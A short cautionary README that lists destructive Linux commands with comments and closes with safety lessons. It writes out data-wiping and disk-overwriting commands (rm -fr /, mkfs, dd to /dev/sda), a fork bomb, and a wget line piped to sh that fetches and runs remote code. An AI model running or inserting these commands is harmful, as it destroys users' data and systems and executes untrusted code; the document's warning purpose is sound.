 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `format C:` of the old DOS? this have the same result.

### Write in the Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


## Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


## The Black Hole

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


## Stranger Danger

`wget http://example.com/something -O – | sh –`


## You will be no more busy

`rm -f /usr/sbin/busybox`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
